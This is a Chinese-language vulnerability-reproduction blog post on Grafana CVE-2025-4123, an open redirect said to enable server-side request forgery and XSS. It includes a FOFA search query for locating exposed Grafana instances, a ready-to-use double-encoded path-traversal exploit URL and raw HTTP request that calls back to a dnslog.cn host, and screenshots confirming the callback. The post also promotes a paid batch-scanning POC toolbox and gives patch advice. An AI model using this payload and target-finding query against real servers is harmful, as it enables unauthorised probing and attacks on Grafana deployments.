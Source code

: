 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247488591&idx=1&sn=c235ea6352df7f47f2fc2bd6408c05c1

#  Grafan存在url重定向&服务端请求伪造漏洞CVE-2025-4123 附POC  
2025-6-13更新  南风漏洞复现文库   2025-06-13 15:27  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Grafan简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
Grafana  
## 2.漏洞描述  
  
Grafana 是一个开源的数据可视化与监控平台，主要用于将复杂的时序数据、日志和指标转化为直观的图表和仪表盘，帮助用户实时监控系统性能、分析业务指标及故障排查。在受漏洞影响的版本中。在受漏洞影响的版本中，由于static.go在处理静态资源重定向逻辑时，未对原始URL路径进行处理，导致可以通过重定向到托管将执行任意 JavaScript 的前端插件的网站，执行恶意的js文件，导致跨站脚本漏洞形成。修复的版本通过对redirectPath进行Clean操作，预先处理了URL重定向路径中的非法操作，避免了由于重定向导致XSS漏洞的触发。  
  
CVE编号:CVE-2025-4123  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Grafana  
  
![Grafan存在url重定向&服务端请求伪造漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gibxnXjhKxialUA4QCsfHibdIDs984DM6NxviayC48PHXxuKWgfk5uLbItg/640?wx_fmt=png&from=appmsg "null")  
  
Grafan存在url重定向&服务端请求伪造漏洞  
## 4.fofa查询语句  
  
app="Grafana"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.x/render/public/..%252f%255Clejpkpvtwwowwjpp.168ct5.dnslog.cn%252f%253F%252f..%252f..  
  
漏洞数据包：  

```
GET /render/public/..%252f%255C52.59.176.239.00y9d0.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8Accept-Encoding: gzip, deflateUser_Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.4 (KHTML, like Gecko) Chrome/22.0.1229.79 Safari/537.4Host: xx.xx.xx.xxConnection: close
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gjdb5NHylTf05bTDbqpZL58LAXiaeTOSYoBf79OTFPibK6AYpwGryr36A/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
dnslog平台接受到信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gQ0C8BicwWI3EwyfE6CL5FhMjCAEVkwUQoF3sQ3iasU1oVvcnLxeJEmtw/640?wx_fmt=png&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7g14Wh9GQBSfGZXT2YHjWR1bg8mcq3qdeARVIqDOPA3MS8e5Y53BB0icQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7g4YFBRh0VbRiakGCH85q3TDNFluVZM8NMovN9EArcMb6UPmmok9Dib5Aw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gj4iaQo8icPKzTNahYUh8fjUibS03YWuHO06NYk0xjoOibZKfrbK8aqPicuA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7ga9XjKtkr2oG8Gj3Y0kWrfibWPmbH9P9GHJoSP1wA5nTXQNVmnWNkZcQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gG4jJTNuPqjzuZwa7t8klrgS8nmsb6vJ4d12ib62TQYrPLrYXErMHSEA/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
将组件 grafana 升级至 12.0.0+security-01 及以上版本  
## 8.往期回顾  
  
  
   
  
  
  
